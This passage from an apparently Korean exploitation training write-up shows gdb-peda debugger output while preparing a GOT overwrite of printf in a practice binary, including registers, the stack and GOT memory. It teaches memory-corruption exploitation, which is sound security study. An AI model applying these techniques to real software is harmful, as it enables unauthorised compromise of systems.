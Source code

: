 공격에 성공했다.

## [+] Training 4

이번엔 GOT Overwrite를 이용하여 공격을 해본다.
예제 소스코드에서는 두번의 `printf` 함수가 호출되므로, `dl_reslove` 함수를 거치지 않고 바로 변조해주면 된다.

```
gdb-peda$ si

[----------------------------------registers-----------------------------------]
EAX: 0xffffd5d6 --> 0x30 ('0')
EBX: 0x0 
ECX: 0x804b410 ("AAAA\n")
EDX: 0xf7fb4870 --> 0x0 
ESI: 0xf7fb3000 --> 0x1b1db0 
EDI: 0xf7fb3000 --> 0x1b1db0 
EBP: 0xffffd5d8 --> 0x0 
ESP: 0xffffd5b4 --> 0x8048505 (<main+58>:	add    esp,0x8)
EIP: 0x8048380 (<printf@plt>:	jmp    DWORD PTR ds:0x804a010)
EFLAGS: 0x296 (carry PARITY ADJUST zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x8048370 <strcmp@plt>:	jmp    DWORD PTR ds:0x804a00c
   0x8048376 <strcmp@plt+6>:	push   0x0
   0x804837b <strcmp@plt+11>:	jmp    0x8048360
=> 0x8048380 <printf@plt>:	jmp    DWORD PTR ds:0x804a010
 | 0x8048386 <printf@plt+6>:	push   0x8
 | 0x804838b <printf@plt+11>:	jmp    0x8048360
 | 0x8048390 <fgets@plt>:	jmp    DWORD PTR ds:0x804a014
 | 0x8048396 <fgets@plt+6>:	push   0x10
 |->   0xf7e4a670 <__printf>:	call   0xf7f20b59 <__x86.get_pc_thunk.ax>
       0xf7e4a675 <__printf+5>:	add    eax,0x16898b
       0xf7e4a67a <__printf+10>:	sub    esp,0xc
       0xf7e4a67d <__printf+13>:	mov    eax,DWORD PTR [eax-0x68]
                                                                  JUMP is taken
[------------------------------------stack-------------------------------------]
0000| 0xffffd5b4 --> 0x8048505 (<main+58>:	add    esp,0x8)
0004| 0xffffd5b8 --> 0x80485c0 --> 0xa7825 ('%x\n')
0008| 0xffffd5bc --> 0xffffd5d6 --> 0x30 ('0')
0012| 0xffffd5c0 --> 0x414133dc 
0016| 0xffffd5c4 --> 0xa4141 ('AA\n')
0020| 0xffffd5c8 --> 0x8048549 (<__libc_csu_init+9>:	add    ebx,0x1ab7)
0024| 0xffffd5cc --> 0x0 
0028| 0xffffd5d0 --> 0xf7fb3000 --> 0x1b1db0 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
0x08048380 in printf@plt ()
gdb-peda$ x/16x 0x804a010
0x804a010:	0xf7e4a670	0xf7e5f150	0x080483a6	0xf7e19540
0x804a020:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a030:	0x00000000	0x00000000	0x00000000	0x00000000
```
